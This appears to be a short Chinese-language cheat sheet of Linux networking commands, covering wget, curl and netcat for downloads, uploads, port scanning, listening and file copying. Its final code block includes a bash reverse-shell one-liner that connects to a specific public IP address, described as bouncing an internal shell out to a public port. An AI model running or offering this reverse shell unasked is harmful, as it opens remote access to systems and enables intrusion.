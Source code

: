 ## 网络请求

```sh
# 递归下载整个站点
$ wget --recursive http://url.com

# 展示 curl 的进度
$ curl --progress-bar -T "${SOME_LARGE_FILE}" "${UPLOAD_URL}" | tee /dev/null
```

nc 也是常见的网络监听与请求工具：

```sh
# 端口扫描
$ nc -v -w 2 192.168.2.34 -z 21-24

# 监听
$ nc -l 1234
$ nc 192.168.2.34 1234

# 文件拷贝，从 192.168.2.33 拷贝文件到 192.168.2.34
$ nc -l 1234 > test.txt # 192.168.2.34
$ nc 192.168.2.34 < test.txt # 192.168.2.33

# 发送端
$ cat a.txt  |  nc -l  3333
# 接收端
$ nc 192.168.0.3    3333 >   a.txt

# 将内网的 Shell 反弹到某个公网的端口
$ bash -i >& /dev/tcp/180.100.74.29/8182 0>&1
```

# Todos

- [ ] [the-art-of-command-line](https://parg.co/bXZ)
- [ ] [Linux Commands Cheat Sheet](https://parg.co/Uqu)
- [ ] https://gist.github.com/alkavan/746547
